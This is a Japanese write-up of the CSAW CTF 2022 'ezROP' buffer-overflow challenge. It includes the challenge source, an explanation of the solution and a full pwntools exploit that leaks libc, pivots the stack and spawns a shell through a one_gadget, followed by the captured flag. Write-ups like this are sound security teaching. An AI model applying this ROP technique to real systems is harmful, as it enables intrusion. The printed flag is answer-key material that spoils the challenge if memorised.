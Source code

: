 # CSAW CTF 2022 `ezROP [pwn]` writeup

## 問題
This is a simple buffer overflow challenge, but I wrote it in a reversed way :)

`nc pwn.chal.csaw.io 5002`

実行ファイルとソースコード、リモート環境をエミュレートするためのDockerfile群が提供される。

```c
#include <stdio.h>
#include <ctype.h>
int init(){
    fclose(stderr);
    setvbuf(stdin,  0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}
int check(char *s){
    char *ptr = s;
    while(*ptr!=0)
    {
        if(*ptr=='\n')
        {
            *ptr = 0; break;
        }
        if(isalpha(*ptr) || *ptr==' ')
            ptr++;
        else
        {
            puts("Hey Hacker! Welcome to CSAW'22!");
            exit(1);
        }
    }
    printf("Nice to meet you, %s! Welcome to CSAW'22!\n",s);
    return 1;
}
char * str1 = "My friend, what's your name?";
void readn(char * buf, size_t len){
    if(read(0,buf,len)<=0)
        exit(1);
    return ;
}
void vul(void *buf){
    size_t rdi = 0x00000000004015a3;
    size_t rsi = rdi-2;
    size_t rop[0x100]; 
    size_t ct = 0 ; 
    memset(rop,0,sizeof(rop));

    rop[ct++] = buf+0x70; // real ret address
    rop[ct++] = rdi;
    rop[ct++] = str1;
    rop[ct++] = puts;

    rop[ct++] = rsi;
    rop[ct++] = 0x100; // rsi
    rop[ct++] = 0x999; // Pad

    rop[ct++] = rdi; 
    rop[ct++] = buf; // rdi

    rop[ct++] = readn;

    rop[ct++] = rdi;
    rop[ct++] = buf;
    rop[ct++] = check;

    rop[ct++] = 0x40152d;

    rop[0x104] = rop;
    return ;
}
int main(){
    char buf[100];
    init();
    vul(buf);
}
```

## 解法
セキュリティ機構の確認から。

```
[*] '/home/caffeine/ctf/csawctf22/pwn/ezrop/chal/ezROP'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Stack Buffer OverflowでROP組むっぽい。

ソースコードを見るとvul()が大変なことに。
ROPの形で`read(0, buf, 0x100)`を作って標準入力を受け取っている (プログラム内で自らリターンアドレス壊してるの面白い)。

入力はローカル変数に0x100バイト、入力を受け取った後に非アルファベットが含まれていないかチェックが入る。
このチェックが杜撰で、buf内を改行文字まで確認して満足している。
read()は改行で止まらないので、パディングに改行を含めればOK。

本命のROPは2段階。
1段階目ではlibc leakしてから.bssセクションへの入力を受け付けてstck pivotする。
2段階目ではリークしたlibcのアドレスからone gadgetの絶対アドレスを計算してシェルを奪う。
libcはDockerから取ってきた。

## Exploit
特に言うこともないが、stack pivotした後なら絶対アドレス書き込みができるので`system("/bin/sh")`を自分で作り出すほうが確実かも。

```py
from concurrent.futures import process
from pwn import *
import sys

elf = ELF("chal/ezROP")
libc = ELF("libc.so.6")
io = process(elf.path)
io = remote("pwn.chal.csaw.io", 5002)

# gdb.attach(io, 'b *0x40152d')

one_gadget = 0xe3afe

bss_base_addr = 0x404080
pop_rdi_ret = 0x4015a3
pop_rsi_r15_ret = 0x4015a1
pop_rsp_r13_r14_r15_ret = 0x40159d
pop_r12_r13_r14_r15_ret = 0x40159c

# libc leak & stack pivot
payload = b'A' * 0x77
payload += b'\n'
payload += p64(pop_rdi_ret)
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(pop_rdi_ret)
payload += p64(bss_base_addr + 0x18)
payload += p64(pop_rsi_r15_ret)
payload += p64(0x100)
payload += p64(0)
payload += p64(elf.sym["readn"])
payload += p64(pop_rsp_r13_r14_r15_ret)
payload += p64(bss_base_addr)
io.send(payload)

io.recvuntil(b"CSAW'22!\n")
ret = io.recv(6)
libc.address = u64(ret + b"\x00\x00") - libc.sym["puts"]
print("libc: " + str(hex(libc.address)))

# one gadget
payload = p64(pop_r12_r13_r14_r15_ret)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(libc.address + one_gadget)
io.send(payload)

io.interactive()
```

FLAG: `flag{53bb4218b851affb894fad151652dc333a024990454a0ee32921509a33ebbeb4}`